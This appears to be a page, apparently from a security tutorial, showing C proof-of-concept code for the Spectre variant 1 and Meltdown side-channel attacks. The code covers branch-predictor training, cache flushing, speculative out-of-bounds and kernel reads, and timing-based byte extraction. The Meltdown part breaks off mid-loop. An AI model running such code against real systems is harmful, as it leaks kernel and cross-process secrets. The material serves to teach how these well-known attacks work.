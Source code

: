 ```c
// Spectre variant 1 example
unsigned char array1[16];
unsigned char array2[256 * 512];
unsigned char temp;
unsigned int array1_size = 16;

void spectre_attack(size_t x) {
    if (x < array1_size) {  // Bounds check
        // Speculative execution may bypass this check
        temp &= array2[array1[x] * 512];
    }
}

// Measure timing to extract data
void extract_byte(size_t malicious_x) {
    // Train branch predictor
    for (int i = 0; i < 5; i++) {
        spectre_attack(i);
    }
    
    // Flush cache
    for (int i = 0; i < 256; i++) {
        _mm_clflush(&array2[i * 512]);
    }
    
    // Attack with out-of-bounds index
    spectre_attack(malicious_x);
    
    // Time memory accesses to determine leaked byte
    for (int i = 0; i < 256; i++) {
        int junk = 0;
        register uint64_t time1 = __rdtscp(&junk);
        junk = array2[i * 512];
        register uint64_t time2 = __rdtscp(&junk);
        
        if ((time2 - time1) < CACHE_HIT_THRESHOLD) {
            printf("Leaked byte: %02x\n", i);
        }
    }
}
```

### Meltdown Exploitation

```c
// Meltdown example
void meltdown_attack(void *kernel_addr) {
    char *probe_array = mmap(NULL, 256 * 4096, PROT_READ | PROT_WRITE,
                             MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    
    // Flush probe array from cache
    for (int i = 0; i < 256; i++) {
        _mm_clflush(&probe_array[i * 4096]);
    }
    
    // Speculative execution reads kernel memory
    register char kernel_data = *(char *)kernel_addr;
    
    // Encode leaked data in cache state
    probe_array[kernel_data * 4096] = 1;
    
    // Measure cache timings to extract data
    for (int i = 0; i < 256; i++) {
```